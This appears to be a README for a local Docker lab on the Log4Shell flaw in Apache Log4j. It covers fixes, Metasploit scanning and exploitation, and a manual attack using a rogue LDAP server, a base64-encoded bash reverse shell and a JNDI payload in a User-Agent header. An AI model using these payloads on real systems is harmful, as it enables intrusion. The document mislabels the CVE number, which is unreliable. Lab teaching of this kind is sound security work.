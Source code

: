 
# Log4Shell lab

The _Log4Shell exploit_ (CVE-2021-44832) targets a vulnerability in the Apache Log4j logging library, allowing remote code execution by manipulating log messages. Specifically, the exploit involves the use of a malicious LDAP server to inject arbitrary code into a vulnerable Java application via JNDI lookups.

Log4j uses Java Naming and Directory Interface (JNDI) to enable dynamic logging configuration based on resources located through naming and directory services. It allows log messages to include lookup patterns that can retrieve data from various sources, such as LDAP or DNS.

When a user input or a specific HTTP header (like `User-Agent`) that contains a JNDI lookup string is logged by the vulnerable application, the Log4j library processes this string and performs a lookup to the specified LDAP server. In this exploit, the attacker's LDAP server responds with a payload that leads to the execution of arbitrary code on the application server.

The payload is a Java gadget chain that leverages a Java deserialisation vulnerability. The gadget chain involves invoking methods on serialised objects that execute arbitrary code upon deserialisation, leveraging existing classes in the application's classpath to bypass security checks and gain remote code execution. For more information on choosing which gadget to use to effectively gain code execution on the victim, see [here](https://www.veracode.com/blog/research/exploiting-jndi-injections-java).

## Vulnerability fix

The vulnerability is addressed in Log4j version 2.17.1 and later. As reported by [NIST](https://nvd.nist.gov/vuln/detail/CVE-2021-44832), Apache Log4j (`log4j-core`) versions 2.0-beta9 to 2.14.1 are vulnerable. Avoid using any of these versions explicitly, or as a _transitive dependency from other packages_ such as Spring Boot.

For applications that cannot be immediately updated, modify the Log4j configuration to disable JNDI lookups. This can be achieved by setting the system property `log4j2.formatMsgNoLookups` to `true` or by removing the JNDI lookup class from the classpath.

The vulnerability is independent of Java versions, so any Java runtime that uses a vulnerable Log4j can be exploited.

## Lab

Package the vulnerable application with Gradle and run it in a Docker container.

```bash
tom@MacBook:~/workspace/security/log4shell-lab# docker-compose up
```

We can verify that the application is vulnerable to CVE-2021-44832 by including the lookup string `${java:os}` in the login page at `http://localhost:8080`.

![](img/login.png)

The logs show that the lookup string is resolved.

![](img/verify.png)

## Finding the vulnerability

Use the Metasploit module `scanner/http/log4shell_scanner`. The scanner finds the vulnerable `User-Agent` header from the POC application.

```bash
msf6> use auxiliary/scanner/http/log4shell_scanner
msf6 auxiliary(scanner/http/log4shell_scanner) > set RHOSTS localhost
msf6 auxiliary(scanner/http/log4shell_scanner) > set RPORT 8080
msf6 auxiliary(scanner/http/log4shell_scanner) > set SRVHOST 192.168.5.2
msf6 auxiliary(scanner/http/log4shell_scanner) > set SRVPORT 1389
msf6 auxiliary(scanner/http/log4shell_scanner) > run

[+] ::1:8080              - Log4Shell found via / (header: User-Agent) (os: Linux 6.6.12-linuxkit unknown, architecture: aarch64-64) (java: Oracle Corporation_11.0.16)
```

## Automated exploitation with Metasploit

Metasploit has a couple of modules for automated exploitation. For header injection we can use the module `exploit/multi/http/log4shell_header_injection`.

To work on the lab environment, we use the following options. Replace the LHOST and SRVHOST variables with the Docker host IP. The lab environment uses Java 11 so we will use the Java gadget "BeanFactory".

```bash
set HTTP_HEADER User-Agent
set RHOSTS 127.0.0.1
set RPORT 8080
set LHOST 192.168.5.2
set LPORT 443
set SRVHOST 192.168.5.2
set SRVPORT 1389
set target 2
set JAVA_GADGET_CHAIN BeanFactory
```

Run the exploit and we get shell access.

```bash
msf6 exploit(multi/http/log4shell_header_injection) > exploit

[*] Started reverse TCP handler on 192.168.5.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 127.0.0.1:8080        - Log4Shell found via / (header: User-Agent) (os: Linux 6.6.12-linuxkit unknown, architecture: aarch64-64) (java: Oracle Corporation_11.0.16)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[*] Server stopped.
[+] The target is vulnerable.
[*] Command shell session 3 opened (192.168.5.2:4444 -> 192.168.5.5:40058) at 2024-02-17 16:17:43 +0100
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)
```

## Manual exploit

Prepare a malicious LDAP server for JNDI injection attacks, for example [rogue-jndi](https://github.com/veracode-research/rogue-jndi). The Java version used to build the project does not need to correspond to the version running the vulnerable application.

The malicious LDAP server is configured to receive a specific command sequence. This command is then embedded into the code that is dynamically compiled and executed by the victim's system, effectively allowing the attacker's code to run on the target machine.

```bash
bash -c {echo,$base64EncodedCommand}|{base64,-d}|{bash,-i}
```

The variable `base64EncodedCommand` will contain a bash TCP reverse shell connecting to the host IP 192.168.5.2 at port 443.

```bash
tom@MacBook:~/workspace/security/rogue-jndi# echo 'bash -c bash -i >& /dev/tcp/192.168.5.2/443 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNS4yLzQ0MyAwPiYxCg==
```

Start the malicious LDAP server with the embedded command.

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNS4yLzQ0MyAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "192.168.5.2" --httpPort 8888
```

Start a Netcat listener on the attacker.

```bash
nc -lnvp 443
```

Trigger the exploit by using a JNDI lookup string that targets our malicious LDAP server.

```bash
${jndi:ldap://192.168.5.2:1389/o=tomcat}
```

The vulnerable application has two vulnerable parameters. The exploit can be triggered via the username field or via the `User-Agent` header.

```http
POST /login HTTP/1.1
Host: localhost:8080
User-Agent: ${jndi:ldap://192.168.5.2:1389/o=tomcat}
Content-Type: application/x-www-form-urlencoded
Origin: http://localhost:8080
Connection: close
Referer: http://localhost:8080/

username=log4shell
```

We get a shell connection into the Docker container.

![](img/revshell.png)

## Ethical consideration and responsible use

This tutorial, including all code and documentation, is provided for educational and research purposes only. It aims to enhance understanding of cybersecurity vulnerabilities, defensive strategies, and the importance of maintaining secure systems. The demonstration of the Log4Shell vulnerability is intended to inform developers, security professionals, and educational institutions about the risks and mitigation techniques related to this and similar vulnerabilities.

## Resources

- https://github.com/pentesterland/Log4Shell
- https://infosecwriteups.com/log4j-zero-day-vulnerability-exploitation-detection-mitigation-9667908857b4
- https://github.com/Cyb3rWard0g/log4jshell-lab
- https://logging.apache.org/log4j/2.x/security.html#CVE-2021-44228
- https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot
- [Hack The Box | Unified](https://help.hackthebox.com/en/articles/6007919-introduction-to-starting-point)
